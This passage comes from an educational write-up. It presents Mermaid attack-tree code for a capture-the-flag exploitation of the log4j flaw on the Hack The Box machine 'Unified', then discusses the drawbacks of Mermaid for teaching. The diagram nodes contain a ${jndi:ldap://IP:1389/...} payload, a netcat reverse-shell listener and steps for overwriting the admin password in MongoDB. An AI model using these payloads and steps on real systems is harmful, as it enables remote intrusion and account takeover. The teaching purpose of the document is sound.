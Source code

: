 
We first tried to sketch attack trees using a scripted language called Mermaid (https://mermaid.js.org/). 
For example, we considered an exercise entitled ``Unified'' mimicking an exploit of the recent log4j vulnerability from HTB Starting Point 
https://app.hackthebox.com/starting-point/#unified. 

We estimated that it is better to split the exercise into three attack trees: one for scanning and two others for zooming in on the initial exploit 
and the privilege escalation later. 
<table border="2px"> 
  <tr>
    <td>
      <figure>
        <img src="mermaid-scan.png" alt="Scan and Vulnerability Detection for the Machine <b>Unified</b>" width="200"/>    
      <figcaption>Scan and Vulnerability Detection for the Machine <b>Unified</b></figcaption>
      </figure>
    </td>
    <td>
     <figure>
      <img src="mermaid-privesc.png" alt="Privilege Escalation in the Machine  <b>Unified</b>" width="200"/> 
      <figcaption>Privilege Escalation in the Machine <b>Unified</b></figcaption>
    </figure>
    </td>
  </tr>
 <tr>
   <td colspan="2">
<figure>
    <img src="mermaid-diagram-2023-01-11-195621.png" alt="Exploiting the log4j Vulnerability in the Machine <b>Unified</b>" width="400"/> &nbsp;
  <figcaption>Exploiting the log4j Vulnerability in the Machine <b>Unified</b></figcaption>
</figure>
     </td>
</tr>
 </table>


The code for generating the three tree figures is shown here: 
```
<div class="mermaid">
graph LR
  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
  6 --> 7["check site settings <br/> get root ssh password"]
  3 --> 5
  end
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  subgraph Scan
  A[nmap] --> B[8443 <br/> UniFi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh] 
  end
</div>
```


This approach has the advantage that trees are formalized in a written form and automatically generated. The structured format makes it easy to feed the trees to an AI engine, however, 
we noticed the following drawbacks: 

- The mermaid building blocks are not flexible. Therefore, we need to manage the space better than being automatically controlled by the tool. 
- We can not have many types of nodes. The shape and color of the block can visually encode information that might help the learner. 

We decided to go for a more appealing visual approach in the first place and differentiate its formalism to future work. We propose to build attack trees based on different block types. Currently, our model comprises 18 types of blocks, and we claim to be incomplete, of course. For example, we did not consider a multi-machine exercise, so we do not have a block type for pivoting. 
